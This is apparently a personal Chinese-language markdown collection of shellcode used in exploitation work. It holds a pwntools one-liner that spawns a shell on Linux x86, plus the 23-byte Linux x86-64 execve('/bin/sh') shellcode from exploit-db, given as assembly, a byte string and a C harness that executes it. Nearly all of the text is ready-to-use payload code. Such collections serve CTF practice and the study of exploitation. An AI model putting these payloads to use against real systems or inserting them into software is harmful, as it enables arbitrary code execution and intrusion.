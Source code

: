 # shellcode 整理

整理一些用过的 shellcode

https://www.exploit-db.com/shellcode/

## Linux_x86

### 1 pwntools shellcraft

```python
shellcode = asm(shellcraft.sh())
```



## Linux_x86-64

### 1 Linux/x64 - execve(/bin/sh) Via Push Shellcode (23 bytes)

https://www.exploit-db.com/exploits/36858/

```c
/*
    #
    # Execve /bin/sh Shellcode Via Push (Linux x86_64 23 bytes)
    #
    # Dying to be the shortest.
    #
    # Copyright (C) 2015 Gu Zhengxiong (rectigu@gmail.com)
    #
    # 27 April 2015
    #
    # GPL
    #
 
 
    .global _start
_start:
    # char *const argv[]
    xorl %esi, %esi
 
    # 'h' 's' '/' '/' 'n' 'i' 'b' '/'
    movq $0x68732f2f6e69622f, %rbx
 
    # for '\x00'
    pushq %rsi
 
    pushq %rbx
 
    pushq %rsp
    # const char *filename
    popq %rdi
 
    # __NR_execve 59
    pushq $59
    popq %rax
 
    # char *const envp[]
    xorl %edx, %edx
 
    syscall
 */
 
/*
  gcc -z execstack push64.c
 
  uname -r
  3.19.3-3-ARCH
 */
 
#include <stdio.h>
#include <string.h>
 
int
main(void)
{
  char *shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
    "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
 
  printf("strlen(shellcode)=%d\n", strlen(shellcode));
 
  ((void (*)(void))shellcode)();
 
  return 0;
}
```

